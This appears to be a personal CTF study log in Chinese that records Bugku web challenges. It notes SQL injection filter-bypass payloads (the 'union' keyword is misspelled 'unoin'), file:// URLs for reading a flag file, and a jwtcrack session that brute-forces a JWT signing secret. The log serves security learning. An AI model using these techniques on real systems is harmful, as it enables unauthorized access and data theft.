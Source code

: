 ### 11.30
#### 1、[https://ctf.bugku.com/challenges/detail/id/406.html](https://ctf.bugku.com/challenges/detail/id/406.html%E3%80%81)
题解：[[2、ctf-websqli-0x1-bugku题解]]
注意：对于mysqli来说query方法可以执行insert
学到的东西：
```sql
#使用浮点数加union的方式绕过空格，使用order by查询第一行数据
select * from users where username=1E0'unoin select * from users order by username desc
select * from users where username=1E0'unoin insert

```
[[sql注入绕过]]
#### 2、baby lfi 2
https://ctf.bugku.com/challenges/detail/id/426.html
题解：[[1、baby lfi 2题解]]
#### 3、nextGen2
https://ctf.bugku.com/challenges/detail/id/431.html
```
//以下三个的效果是一样的
file:///flag.txt
file://127.0.0.1/flag.txt
file://127.0.1/flag.txt
```
#### 4、whois
https://ctf.bugku.com/challenges/detail/id/432.html
[[whois题解]]

### 12.4
#### 1、just-work-type
注意：这个token由三部分组成以.分割，前两个部分是由base64编码的（注意万能解密工具中的那个base64编码可能没法用，用小葵，然后，破解密码的工具在kali中）
破解密码工具使用方法如下：
```
┌──(root㉿kali)-[~/桌面/c-jwt-cracker-master]
└─# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MDE2ODAxNDcsImV4cCI6MTcwMTY4Mzc0N30.d8DbLwxb3aqXtc2a8DsZOuAXFruBWbWYr8YaGF-ig5I
Secret is "123"
                             
```
[[json web token绕过思路]]
### 12.7
ez_curl:
